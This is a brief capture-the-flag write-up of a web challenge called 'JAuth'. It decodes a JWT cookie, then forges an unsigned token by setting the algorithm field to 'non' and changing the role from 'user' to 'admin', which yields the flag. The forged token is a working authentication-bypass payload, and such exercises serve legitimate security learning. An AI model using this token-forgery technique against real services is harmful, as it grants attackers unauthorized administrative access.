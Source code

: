 # JAuth

Upon logging in with the given test credentials, we get a JWT cookie, decoding which gives:

```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```

```json
{
  "auth": 1757758147878,
  "agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1757758148
}
```

Trying the attack in [No Way JOSE](../../Cryptohack/Crypto%20on%20the%20Web/JSON%20Web%20Tokens.md) challenge of Crypohack:

```json
{
  "typ": "JWT",
  "alg": "non"
}
```

```json
{
  "auth": 1757758147878,
  "agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36",
  "role": "admin",
  "iat": 1757758148
}
```

Encode the above to get a token, and edit the cookie. Reloading displays the flag!
